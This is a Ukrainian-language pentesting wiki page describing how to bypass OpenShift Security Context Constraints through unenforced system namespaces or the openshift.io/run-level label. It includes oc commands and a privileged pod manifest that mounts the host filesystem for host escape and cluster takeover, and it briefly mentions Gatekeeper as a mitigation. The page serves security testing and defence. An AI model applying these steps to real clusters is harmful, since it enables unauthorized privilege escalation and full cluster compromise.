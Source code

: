 # Openshift - SCC обхід

**Оригінальний автор цієї сторінки** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## Привілейовані простори імен

За замовчуванням, SCC не застосовується до наступних проектів:

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

Якщо ви розгортаєте поди в одному з цих просторів імен, жоден SCC не буде застосовано, що дозволяє розгортати привілейовані поди або монтувати файлову систему хоста.

## Мітка простору імен

Існує спосіб вимкнути застосування SCC на вашому поді відповідно до документації RedHat. Вам потрібно мати принаймні одне з наступних дозволів:

- Створити простір імен і створити под у цьому просторі імен
- Редагувати простір імен і створити под у цьому просторі імен
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
Специфічна мітка `openshift.io/run-level` дозволяє користувачам обійти SCC для додатків. Згідно з документацією RedHat, коли ця мітка використовується, жодні SCC не застосовуються до всіх подів у цьому просторі імен, ефективно усуваючи будь-які обмеження.

<figure><img src="../../../images/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Додати мітку

Щоб додати мітку у вашому просторі імен:
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Щоб створити простір імен з міткою через YAML файл:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Тепер всі нові поди, створені в просторі імен, не повинні мати жодного SCC

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

У відсутності SCC немає жодних обмежень на визначення вашого пода. Це означає, що зловмисний под може бути легко створений для втечі на хост-систему.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Тепер стало легше підвищити привілеї для доступу до хост-системи і, відповідно, захопити весь кластер, отримавши привілеї 'cluster-admin'. Шукайте частину **Node-Post Exploitation** на наступній сторінці:

{{#ref}}
../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### Кастомні мітки

Крім того, в залежності від налаштування цілі, деякі кастомні мітки / анотації можуть використовуватися так само, як і в попередньому сценарії атаки. Навіть якщо це не призначено, мітки можуть використовуватися для надання дозволів, обмеження або не обмеження конкретного ресурсу.

Спробуйте знайти кастомні мітки, якщо ви можете прочитати деякі ресурси. Ось список цікавих ресурсів:

- Pod
- Deployment
- Namespace
- Service
- Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Перерахуйте всі привілейовані простори імен
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Advanced exploit

В OpenShift, як було продемонстровано раніше, наявність дозволу на розгортання пода в просторі імен з міткою `openshift.io/run-level` може призвести до простого захоплення кластера. З точки зору налаштувань кластера, ця функціональність **не може бути вимкнена**, оскільки вона є невід'ємною частиною дизайну OpenShift.

Однак, заходи пом'якшення, такі як **Open Policy Agent GateKeeper**, можуть запобігти користувачам встановлювати цю мітку.

Щоб обійти правила GateKeeper і встановити цю мітку для виконання захоплення кластера, **зловмисники повинні виявити альтернативні методи.**

## References

- [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
- [https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html](https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html)
- [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
